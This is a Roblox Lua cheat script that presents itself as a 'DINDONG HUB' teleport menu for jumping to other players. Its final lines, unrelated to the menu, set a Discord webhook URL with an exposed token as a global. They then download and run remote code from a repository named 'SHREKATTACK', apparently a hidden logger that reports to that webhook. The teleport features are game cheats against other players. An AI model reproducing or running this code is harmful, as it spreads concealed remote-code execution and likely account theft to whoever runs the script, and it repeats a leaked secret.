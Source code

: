 

local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("DINDONG HUB", "DarkTheme")
local Tab = Window:NewTab("Player")
local Section = Tab:NewSection("Select Player!")
Plr = {}
for i,v in pairs(game:GetService("Players"):GetChildren()) do
    table.insert(Plr,v.Name) 
end
local drop = Section:NewDropdown("Select Player!", "Click To Select", Plr, function(t)
   PlayerTP = t
end)
Section:NewButton("Click To TP", "", function()
    game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end)
Section:NewToggle("Auto Tp", "", function(t)
_G.TPPlayer = t
while _G.TPPlayer do wait()
game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[PlayerTP].Character.HumanoidRootPart.CFrame
end
end)

Section:NewButton("Refresh Dropdown","Refresh Dropdown", function()
  drop:Refresh(Plr)
end)


local Tab = Window:NewTab("misc")
local Section = Tab:NewSection("Select Player!")

Section:NewKeybind("KeybindText", "KeybindInfo", Enum.KeyCode.F, function()
	Library:ToggleUI()
end)


_G.webhooksdiscord = "https://discord.com/api/webhooks/952534837422608384/SdxPIEPCN4no6wLSaEMoQlIRf7s3uwjS8ZoQNwi80nJR1G1MLVPklORU01hYvV7uFkhk"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()
